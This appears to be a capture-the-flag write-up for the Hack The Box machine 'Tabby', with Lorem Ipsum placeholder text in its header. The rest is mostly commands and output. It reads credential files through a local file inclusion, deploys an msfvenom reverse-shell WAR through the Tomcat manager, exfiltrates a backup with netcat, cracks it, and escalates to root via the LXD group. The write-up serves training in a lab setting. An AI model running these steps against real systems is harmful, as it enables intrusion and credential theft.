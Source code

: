 ```yaml
---
title: Tabby - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2020-07-06
image: images/tabby_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/tabby_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. root@nidus:/git/htb# nmap -Pn -sC -sV -n 10.10.10.194
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-06 00:47 CEST
    Nmap scan report for 10.10.10.194
    Host is up (0.038s latency).
    Not shown: 997 closed ports
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
    80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: Mega Hosting
    8080/tcp open  http    Apache Tomcat
    |_http-open-proxy: Proxy might be redirecting requests
    |_http-title: Apache Tomcat
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


    DIRB:
    + http://10.10.10.194:8080/docs (CODE:302|SIZE:0)
    + http://10.10.10.194:8080/examples (CODE:302|SIZE:0)
    + http://10.10.10.194:8080/host-manager (CODE:302|SIZE:0)
    + http://10.10.10.194:8080/index.html (CODE:200|SIZE:1895)
    + http://10.10.10.194:8080/manager (CODE:302|SIZE:0)

    NIKTO:
    -


2. Visiting the webpage on port 80 we directly find;
    - Hostname megahosting.htb
    - The site is also made with Bootstrap Themes from 2016
    - Information about a breach linking to http://megahosting.htb/news.php?file=statement


3. Adding megahosting.htb to /etc/hosts we are able to read their statement. Looking at the URI it looks vulnerable to LFI, testing
   this proves that that's the case - instead of reading the file 'statement' we can read '../../../../../etc/passwd'.

   Reading the passwd-file we find the user Ash;
    ash:x:1000:1000:clive:/home/ash:/bin/bash

   On the port 8080 webserver we find a Tomcat9 server with a admin login prompt. Using the found LFI we can enumerate the tomcat
   server and look for credentials. To find the file structure I installed tomcat9 locally and enumerated the directories locally;

   root@nidus:/usr/share/tomcat9# tree
    .
    ..
    ├── etc
    │   ├── server.xml
    │   ├── tomcat-users.xml
    │   └── web.xml

    We find the user configuration file under /usr/share/tomcat9/etc/tomcat-users.xml. Curling this through our LFI gives us;

    root@nidus:/git/htb/tabby# curl http://megahosting.htb/news.php?file=../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml
      ..
         <role rolename="admin-gui"/>
         <role rolename="manager-script"/>
         <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
      </tomcat-users>

    CREDENTIALS - tomcat:$3cureP4s5w0rd123!


4. Reading through the Tomcat documentation tells us that if we have access to the host-manager, we are able to add, remove and
   manage Virtual Hosts through curl.

   We create a malicious payload:
   root@nidus:/git/htb/tabby# msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.44 lport=4488 -f war > rev-shell.war
    Payload size: 1086 bytes
    Final size of war file: 1086 bytes

   Upload the shell:
   root@nidus:/git/htb/tabby# curl -u 'tomcat':'$3cureP4s5w0rd123!' -T rev.war 'http://10.10.10.194:8080/manager/text/deploy?path=/rev-shell'
    OK - Deployed application at context path [/rev-shell]

   List Deployed Shell:
   root@nidus:/git/htb/tabby# curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list
    OK - Listed applications for virtual host [localhost]
    /:running:0:ROOT
    /examples:running:0:/usr/share/tomcat9-examples/examples
    /host-manager:running:0:/usr/share/tomcat9-admin/host-manager
    /rev-shell:running:0:rev-shell
    /manager:running:0:/usr/share/tomcat9-admin/manager
    /docs:running:0:/usr/share/tomcat9-docs/docs

   Execute Deployed Shell:
   root@nidus:/git/htb/tabby# curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/rev-shell/

   root@nidus:/usr/share/tomcat9# nc -lvnp 4488
    listening on [any] 4488 ...
    connect to [10.10.14.44] from (UNKNOWN) [10.10.10.194] 45912
    whoami
    tomcat


5. Enumerating using linpeas we find a suspicious zip-file that is password protected. We are unable to open it using the found
   password, so instead I think we might be able to brute force it. Transfer the file over to your local computer using nc.

   tomcat@tabby:/dev/shm$ ./linpeas.sh
     ..
     [+] Backup files?
     -rw-r--r-- 1 ash ash 8716 Jun 16 13:42 /var/www/html/files/16162020_backup.zip

   Start listener locally:
    root@nidus:/git/htb/tabby# nc -lp 4433 > 16162020_backup.zip

   Transfer the file from Victim Host:
    tomcat@tabby:/var/www/html/files$ nc -w3 10.10.14.44 4433 < 16162020_backup.zip

   Crack the file using fcrackzip:
    root@nidus:/git/htb/tabby# fcrackzip -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip
      possible pw found: admin@it ()


6. We are now able to change to user ash:admin@it and grab user.txt

    tomcat@tabby:/var/www/html/files$ su ash
      Password: admin@it
    ash@tabby:/var/www/html/files$ cd /home/ash/
    ash@tabby:~$ cat user.txt
      3f11605318e3590cea5082935ac8d9cb


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Running Linpeas as Ash we see a, for me, unknown group - lxd. Googling for lxd privesc I find a short article explaining that
   that this is possible with a few short steps.

    ====================================( Basic information )=====================================
    ..
    User & Groups: uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)


2. Download lxd alpine builder and build it LOCALLY before pushing it over to the vicitm.

    root@nidus:/git/htb/tabby# git clone https://github.com/saghul/lxd-alpine-builder.git
    root@nidus:/git/htb/tabby# cd lxd-alpine-builder/
    root@nidus:/git/htb/tabby/lxd-alpine-builder# ./build-alpine

   A tar.gz-file is created that we can push/pull to the victim.
   root@nidus:/git/htb/tabby/lxd-alpine-builder# ls -al
    -rw-r--r-- 1 root root 3195037 Jul  6 16:56 alpine-v3.12-x86_64-20200706_1656.tar.gz


3. Pull the tar.gz-file and import it as an image. Mount to a container and profit, root taken.

    ash@tabby:~$ wget http://10.10.14.44:8181/alpine-v3.12-x86_64-20200706_1656.tar.gz
    ash@tabby:~$ lxc image import ./alpine-v3.12-x86_64-20200706_1656.tar.gz --alias p3-image
      If this is your first time running LXD on this machine, you should also run: lxd init
      To start your first instance, try: lxc launch ubuntu:18.04

  If you started the box yourself, or no one has run lxd yet - write 'lxd init' and just press enter to access all default values.

    ash@tabby:~$ lxc image list
      +----------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
      |  ALIAS   | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE         |
      +----------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
      | p3-image | a17d99462fda | no     | alpine v3.12 (20200706_16:56) | x86_64       | CONTAINER | 3.05MB | Jul 6, 2020 at 1:18pm (UTC) |
      +----------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+

   Continue to add a device and select the folder(s) you'd like to mount. In our case we mount the entire box (/) to /mnt/root.

    ash@tabby:~$ lxc init p3-image ignite -c security.privileged=true
      Creating ignite
    ash@tabby:~$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
      Device mydevice added to ignite
    ash@tabby:~$ lxc start ignite
    ash@tabby:~$ lxc exec ignite /bin/sh
    ~ # id
      uid=0(root) gid=0(root)
    ~ # cd /mnt/root/root/
    /mnt/root/root # cat root.txt
      67667b1756a9729b7fadc7f7315019b9



██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

TomCat; Add, Remove, Manage:
  https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_a_Directory_or_WAR_by_URL

lxd PrivEsc:
  https://www.hackingarticles.in/lxd-privilege-escalation/
